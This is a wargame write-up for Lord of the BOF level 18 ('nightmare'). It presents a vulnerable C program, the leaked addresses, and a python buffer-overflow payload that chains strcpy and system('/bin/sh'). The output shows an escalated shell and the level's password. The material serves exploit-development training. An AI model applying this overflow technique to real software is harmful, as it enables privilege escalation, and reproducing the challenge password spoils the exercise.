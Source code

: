```yaml
---
title: "[LOB]Level18. nightmare"
tags: [LOB, writeup, PLT]
author: eli_ez3r
key: 20180831
modify_date: 2019-11-14
article_header:
  type: cover
  image:
    src: 
---
```


[plt](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - nightmare
        - PLT
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
    char buffer[40];
    char *addr;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // check address
    addr = (char *)&strcpy;
    if(memcmp(argv[1]+44, &addr, 4) != 0){
        printf("You must fall in love with strcpy()\n");
        exit(0);
    }

    // overflow!
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);

    // dangerous waterfall
    memset(buffer+40+8, 'A', 4);
}
```

-----

### 0x01. Analysis

<img src="http://eliez3r.synology.me/assets/img/writeup/lob/18.nightmare/image-20180727182321698.png" width="600px">

strcpy = 0x8048410

system = 0x40058ae0

ebp-40 = 0xbffffaa0

"/bin/sh" = 0x400fbff9

ret+4 = 0xbffffad0



```
char *strcpy(char *_Dest, char const *_Source);
```

-----

### 0x02. Exploit

```
[succubus@localhost succubus]$ ./nightmare `python -c 'print "\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"+"A"*32+"\x10\x84\x04\x08"+"A"*4+"\xd0\xfa\xff\xbf"+"\xa0\xfa\xff\xbf"'`
�@AAAA�@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������
bash$ my-pass
euid = 518
beg for me
bash$ id
uid=517(succubus) gid=517(succubus) euid=518(nightmare) egid=518(nightmare) groups=517(succubus)
```

-----

##### shellcode 이용 코드

```python

```

-----